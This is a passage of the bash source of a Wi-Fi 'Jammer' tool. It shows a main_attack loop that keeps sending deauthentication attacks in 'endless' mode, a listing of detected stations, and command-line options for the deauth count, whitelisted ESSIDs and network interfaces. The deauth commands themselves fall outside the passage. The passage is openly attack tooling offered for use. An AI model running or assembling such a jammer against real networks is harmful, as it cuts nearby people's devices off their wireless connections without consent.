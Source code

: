 # Starts attack, if ENDLESS is 1, goes on forever
function main_attack {
    read_file_and_deauth 
    if [[ ENDLESS -eq 1 ]]; then
        main_attack 
    else exit 0
    fi
}


# A fucntion to print the detected stations from the file
function show_detected_stations {
    printf "${PROMPT}Detected Stations are:\n"
    awk -F";" '{print NR,$3}' ${NAME}_out.txt 
    printf "\n\n"
}


echo
echo "Jammer $VERSION"
echo


# Parse the options if there are any
while [[ $# > 0 ]]
do
key="$1"
case $key in
    -d|--deauths)
        DE_AUTH_NUMBER="$2"
        check_number $DE_AUTH_NUMBER
        echo -e "${PROMPT}${GREEN}Setting deauth number to $DE_AUTH_NUMBER ${NC}"
        shift
    ;;
    -y|--yes)
        YES_TO_ALL=1
        echo -e "${PROMPT}${GREEN}Setting YES as the answer to all${NC}"
    ;;
    -s|--endless)
        ENDLESS=1
        echo -e "${PROMPT}${GREEN}Setting mode to Endless${NC}"
    ;;
    -f|--whitelist)
        readarray WHITE_LIST < "$2"
        echo -e "${PROMPT}${GREEN}Trying to whitelist the ESSID's in the file $2 ${NC}"
        shift
    ;;
    -k|--keep)
        KEEP_SCAN_FILES=1
        echo -e "${PROMPT}${GREEN}Scan files will be kept${NC}"
    ;;
    -n|--name)
        NAME="$2"
        echo -e "${PROMPT}${GREEN}Setting scan file names to $NAME ${NC}"
        shift
    ;;
    -e|--ethernet)
        E_INT="$2"
        echo -e "{PROMPT}${GREEN}Setting ethernet interface name to $E_INT ${NC}"
        shift
    ;;